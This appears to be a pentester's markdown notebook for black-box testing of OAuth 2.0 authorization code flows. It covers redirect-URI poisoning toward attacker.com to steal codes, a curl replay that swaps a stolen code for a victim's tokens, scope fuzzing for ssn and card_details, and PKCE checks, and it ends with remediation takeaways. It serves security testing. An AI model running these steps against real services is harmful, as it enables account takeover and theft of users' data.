

> [!summary]  
> **Black‑Box OAuth 2.0 Pentest Strategy** — Leveraging the provided OAuth 2.0 notes to systematically assess and exploit an Authorization Code Flow, uncover misconfigurations, and demonstrate code theft, scope abuse, and missing PKCE.

---

## 1  Preparation & Reconnaissance

> [!info]  
> Define scope: target domain and known OAuth endpoints (`/authorize`, `/oauth/token`, `/callback`). Configure Burp Suite (or ZAP) as proxy and enable Collaborator.

| Task                    | Method                                                 |
| ----------------------- | ------------------------------------------------------ |
| Discover auth endpoints | Spider UI, inspect login buttons                       |
| Fingerprint redirects   | Follow `/authorize?` URL patterns                      |
| Enumerate client IDs    | Burp Proxy history; brute `/authorize` with common IDs |

---

## 2  Review Flow & Parameters



> [!tip]  
> Record every `state`, `client_id`, `redirect_uri`, and `scope` for later validation.

---

## 3  Misconfiguration & Pitfall Checks

|Issue|Test|
|---|---|
|**Redirect URI not validated**|Supply attacker-controlled URI in `/authorize`|
|**Missing state validation**|Replay redirect with manipulated/missing `state`|
|**No PKCE (`code_challenge`)**|Check `/authorize` for absence of `code_challenge`|
|**Overly broad scopes**|Attempt non‑standard scopes (`ssn`, `card_details`)|

> [!warning]  
> An unvalidated redirect URI or missing `state` directly leads to code theft or CSRF.

---

## 4  Code Theft Attack

1. **Poison redirect_uri**: craft link
    
2. **Intercept** user’s redirect with Collaborator
    
3. **Capture** `code` parameter
    

```http
GET /callback?code=STOLENCODE123&state=xyz HTTP/1.1
Host: attacker.com
```

> [!tip]  
> Host a fake endpoint to collect codes via Burp Collaborator or Webhook.site.

---

## 5  Token Exchange Replay

> [!important]  
> If **PKCE** is missing, the stolen code suffices to get tokens.

```bash
curl -X POST https://auth.server.com/oauth/token \
  -d "grant_type=authorization_code" \
  -d "code=STOLENCODE123" \
  -d "redirect_uri=https://attacker.com/callback" \
  -d "client_id=public-client" \
  -d "client_secret=SUPERSECRET"
```

Validate receipt of `access_token` and test API access as victim.

---

## 6  Scope Abuse

|Strategy|Payload|
|---|---|
|**Scope fuzzing**|`scope=profile email address card_details ssn`|
|**Privilege escalation**|Observe increased data returned by resource APIs|

```http
POST /authorize
client_id=…&redirect_uri=…&response_type=code&
scope=profile%20email%20card_details%20ssn&state=xyz
```

> [!tip]  
> Compare API responses with normal vs. expanded scopes.

---

## 7  PKCE Verification

> [!warning]  
> **PKCE absence** means any intercepted code is exploitable.

- Check authorization request for:
    
    ```text
    code_challenge=… & code_challenge_method=S256
    ```
    
- If missing, prioritize code theft over CSRF.
    

---

## 8  Step‑by‑Step Checklist

-  Map `/authorize` and `/oauth/token` endpoints
    
-  Extract and record `client_id`, `redirect_uri`, `state`
    
-  Test redirect URI validation (open redirect)
    
-  Omit or manipulate `state` to confirm CSRF susceptibility
    
-  Inspect for `code_challenge` → confirm PKCE absence
    
-  Poison redirect to attacker URI → capture `code`
    
-  Replay stolen code to exchange for tokens
    
-  Fuzz `scope` parameter to escalate permissions
    
-  Use tokens to access protected resources
    

---

## 9  Tools & Alternatives

|Category|Primary|Alternatives|
|---|---|---|
|Proxy/Intercept|Burp Suite|OWASP ZAP|
|OOB Capture|Burp Collaborator|Interact.sh, Webhook.site|
|Token Replay|curl / Postman|HTTPie|
|Scope Fuzzing|Manual HTTP client|Custom script, jq|

---

## Key Takeaways

> [!important]
> 
> 1. **Validate** `redirect_uri` & `state` to prevent code theft and CSRF.
>     
> 2. **Enforce PKCE** for public clients—absent `code_challenge` → instant exploit.
>     
> 3. **Fuzz scopes** to uncover hidden privileges.
>     
> 4. **Replay** stolen codes immediately to obtain victim’s tokens.
>     
> 5. **Document** every parameter and response for reporting and remediation.
>     

_Last updated: {{DATE:YYYY-MM-DD}}_